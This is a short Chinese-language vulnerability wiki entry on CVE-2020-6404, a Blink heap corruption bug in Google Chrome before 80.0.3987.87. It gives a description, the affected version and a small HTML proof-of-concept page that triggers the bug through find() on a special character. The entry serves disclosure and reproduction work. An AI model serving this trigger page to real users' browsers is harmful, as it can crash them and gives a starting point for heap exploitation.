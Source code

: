 （CVE-2020-6404）Google Chrome Blink 缓冲区错误漏洞
===================================================

一、漏洞简介
------------

在80.0.3987.87之前的Google
Chrome中，Blink中的不当实现使远程攻击者有可能通过精心制作的HTML页面利用堆破坏。

二、漏洞影响
------------

Google Chrome 80.0.3987.87

三、复现过程
------------

### poc

    <!DOCTYPE html>
    <head>
    <script type="text/javascript">
    document.addEventListener("DOMContentLoaded", function(){
    find(decodeURIComponent('\uFFFC'));
    });
    </script>
    </head>
    <body>
    <legend></legend>
    </body>
    </html>

![](/Users/aresx/Documents/VulWiki/.resource/(CVE-2020-6404)GoogleChromeBlink缓冲区错误漏洞/media/rId25.png)
